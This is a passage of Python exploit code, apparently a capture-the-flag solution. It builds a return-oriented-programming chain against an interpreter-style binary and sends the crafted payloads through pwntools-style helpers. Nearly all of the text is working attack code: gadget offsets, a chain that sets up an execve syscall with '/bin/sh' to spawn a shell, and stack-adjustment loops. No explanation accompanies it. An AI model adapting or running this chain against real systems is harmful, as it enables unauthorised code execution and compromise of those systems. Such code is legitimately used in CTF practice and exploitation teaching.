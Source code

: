 ```py
			initSum += 0x17
		elif i == '.':
			initSum += 0x25
		else:
			initSum += 0x1
	return initSum

def ROP(base):
	pop_rdi_ret = 0x711d + base
	mov_rdx_rdi_ret = 0x103F2 + base
	pop_rsi_ret = 0x7285 + base
	pop_rax_ret = 0x10143 + base
	syscall = 0x10847 + base
	buffer = 0x62078 + base
	or_rax_rcx_ret = 0x41a73 + base
	magic1 = 0x40512 + base
	magic2 = 0x404ba + base
	payload = p64(0) # pop rbx
	payload += p64(pop_rax_ret) + p64(0) # ret
	payload += p64(or_rax_rcx_ret)
	payload += p64(pop_rsi_ret) + p64(0xC0)
	payload += p64(pop_rdi_ret) + p64(buffer - 0x18)
	payload += p64(magic1) # [buffer] = rcx + 0xC0

	payload += p64(pop_rdi_ret) + p64(0)
	payload += p64(mov_rdx_rdi_ret) # rdx = 0
	payload += p64(pop_rsi_ret) + p64(0) # rsi = 0
	payload += p64(pop_rdi_ret) + p64(buffer - 8)
	payload += p64(magic2) + p64(0) # rdi = [buffer] = rcx + 0xC0
	payload += p64(pop_rax_ret) + p64(59) # rax = 59
	payload += p64(syscall)
	payload += b'/bin/sh\x00' * 10
	for i in payload:
		sn(p8(i) + b'a')
	sn(b'\x00'*2)

payload1 = b'_'*0x11 + b'[' + b'_'*0x14 + b'['
payload2 = b',,,],],' + b'[>.,],' + b'[<,],' + b'[,>,],'
payload1 = payload1.ljust(calcLen(payload2), b'_')

sendPayload(payload1)
sendPayload(payload2)

sn(b'a'*2)
for i in range(4):
	sn(b'a')
sn(b'\x00')

sn(b'a')
sn(b'\x00')

######
# lifting rsp to adjust it to rcx in the end
for i in range((0x7ffe79705030-0x7ffe79704e90) // 8):
	sn(b'a')
######

sn(b'\x00')
sn(b'\x00')

for i in range(7):
	sn(b'a')
	rn(1)
```